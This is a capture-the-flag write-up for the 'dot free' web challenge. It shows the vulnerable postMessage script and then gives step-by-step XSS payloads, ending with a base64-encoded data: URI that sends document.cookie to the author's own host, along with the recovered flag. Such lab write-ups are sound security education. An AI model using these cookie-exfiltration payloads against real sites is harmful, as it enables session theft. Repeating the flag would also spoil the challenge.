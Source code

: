 # dot free (web, 48 solved, 105 points)

```All the IP addresses and domain names have dots, but can you hack without dot?```

![](pic1.png)

Firstly we check the source code of this site and found some javascript code.
But we didn't take a closer look into that script.


```javascript
<script>
    function lls(src) {
        var el = document.createElement('script');
        if (el) {
            el.setAttribute('type', 'text/javascript');
            el.src = src;
            document.body.appendChild(el);
        }
    };

    function lce(doc, def, parent) {
        var el = null;
        if (typeof doc.createElementNS != "undefined") el = doc.createElementNS("http://www.w3.org/1999/xhtml", def[0]);
        else if (typeof doc.createElement != "undefined") el = doc.createElement(def[0]);

        if (!el) return false;

        for (var i = 1; i
        < def.length; i++) el.setAttribute(def[i++], def[i]);
        if (parent) parent.appendChild(el);
        return el;
    };
    window.addEventListener('message', function (e) {
        if (e.data.iframe) {
            if (e.data.iframe && e.data.iframe.value.indexOf('.') == -1 && e.data.iframe.value.indexOf("//") == -1 && e.data.iframe.value.indexOf("。") == -1 && e.data.iframe.value && typeof(e.data.iframe != 'object')) {
                if (e.data.iframe.type == "iframe") {
                    lce(doc, ['iframe', 'width', '0', 'height', '0', 'src', e.data.iframe.value], parent);
                } else {
                    lls(e.data.iframe.value)
                }
            }
        }
    }, false);
    window.onload = function (ev) {
        postMessage(JSON.parse(decodeURIComponent(location.search.substr(1))), '*')
    }
</script>
```

And so we take a deeper look into the website, with black box testing, and found an error page, which present us a lot of information.
The error page occurs, when we do a POST request with an empty body.
we can take from this some information, like which backend are running and which functions are called.

![](pic2.png) 


From now we know that the backend are written in python and the input are validated with a regular expression. 
We take a deeper look into the error page and we get some more information.
* The *dot free* website give us a result as a JSON object. (What we knew already, because of the black box testing)
* validURL checks our url with the regex
* we guess that RunWebDriver will parse our input

We thought that the data object could may interesting.
Or moreover it could be the solution to change data in data object.
But how?

Now we remember the javascript of the beginning and take a deeper look into it. 
And we found out that we can give the site a JSON object (https://www.w3schools.com/js/js_json_objects.asp) 
over GET (HTTP METHOD), which have to be a iframe.
Our question was, "is it possible to change the data object with the JSON object from the GET request"?
From this point we try something out and found that we can set something into the JSON result (data object) of the website.

Our first try is to set an alert(1) into the data part of the JSON object.
We encode *alert(1)* with base64 and do a GET REQUEST. 

```http://13.57.104.34/?{%22iframe%22:{%22value%22:%22data:text/javascript;base64,YWxlcnQoMSk=%22}}```

And our try succeeded!

From now we try to set something into the data object, which can leak some information, like a image.
And try to set it directly into the data object.

```javascript
(new Image()).src='http://lev9l.ddns.net'
```

We have to encode this with base64.

```
http://13.57.104.34/?{%22iframe%22:{%22value%22:%22data:text/javascript;base64,KG5ldyBJbWFnZSgpKS5zcmM9J2h0dHA6Ly9sZXY5bC5kZG5zLm5ldCc=%22}}
```

And it works. now it is clear!
We guessing that the flag could be the cookie of the WebDriver, which emulates a browser.
And yes it was there!

To get the cookie out of the server we use the image as a GET request, to send us the cookie:

```javascript
(new Image()).src='http://lev9l.ddns.net/?c='+document.cookie
```

And we encode that with base64:

```
http://13.57.104.34/?{%22iframe%22:{%22value%22:%22data:text/javascript;base64,KG5ldyBJbWFnZSgpKS5zcmM9J2h0dHA6Ly9sZXY5bC5kZG5zLm5ldC8/Yz0nK2RvY3VtZW50LmNvb2tpZQ==%22}}
```

Finally we get the flag to our server over the GET request.

Flag: rwctf{L00kI5TheFlo9} 
